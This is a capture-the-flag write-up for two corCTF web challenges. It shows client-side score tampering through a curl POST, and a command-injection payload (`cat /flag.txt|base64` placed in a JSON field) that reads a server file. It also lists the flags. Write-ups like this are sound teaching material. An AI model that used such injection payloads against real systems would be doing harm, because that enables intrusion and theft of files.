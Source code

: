 # 1. JSON QUIZ
Challenge description:
How well do you know JSON? Take this quiz and find out!

Solution:
So, there is a series of 15 questions and we have two chances to pass the test, but even though we make every question correct, it says `the quiz ends by saying you failed, and that your score was in the bottom 30%`.
So looking at the source code, `quiz.js` we can see the following code:
```
function finish() {
    $("#q" + num).classList = "mt-4 question animate__animated animate__fadeOutLeft";
    $("#q" + num + " button").onclick = null;

    const responses = Array.from(document.querySelectorAll(".question"))
        .map(q => [
            q.children[1].innerText,
            Array.from(q.children[2].querySelectorAll("input"))
                .filter(a => a.checked)[0]?.nextElementSibling?.innerText || "???"
        ]);
    console.log(responses);
    
    // TODO: implement scoring somehow
    // kinda lazy, ill figure this out some other time

    setTimeout(() => {
        let score = 0;
        fetch("/submit", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            body: "score=" + score
        })
        .then(r => r.json())
        .then(j => {
            if (j.pass) {
                $("#reward").innerText = j.flag;
                $("#pass").style.display = "block";
            }
            else {
                $("#fail").style.display = "block";
            }
        });
    }, 1250);
}
```
So, it makes a POST request to /submit containing our score, and then responds with either "pass" or "fail". 
But it is by default given as zero, therefore, we get message that we failed.
Sending a post request by setting score=15 gives the flag!
`curl https://jsonquiz.be.ax/submit --data "score=15"`
Flag: corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}


# 2. Ms Frog Generator
Challenge Descritpion:The vanilla msfrog is hard to beat, but this webapp allows you to make it even better! 
Solution:
Looking at the request and response of /api/generate, we can see that there is command injection in it.

```
[{"type":"mskiss.png","pos":{"x":"`cat /flag.txt|base64`","y":0}}]
```
This will give the following encoding:
Y29yY3Rme3NoMHVsZF9oNHZlX3IzbmRlcjNkX2NsMTNudF9zMWRlXzptc2Zyb2c6fQo=
Flag: corctf{sh0uld_h4ve_r3nder3d_cl13nt_s1de_:msfrog:}

# 3. Simple Waf


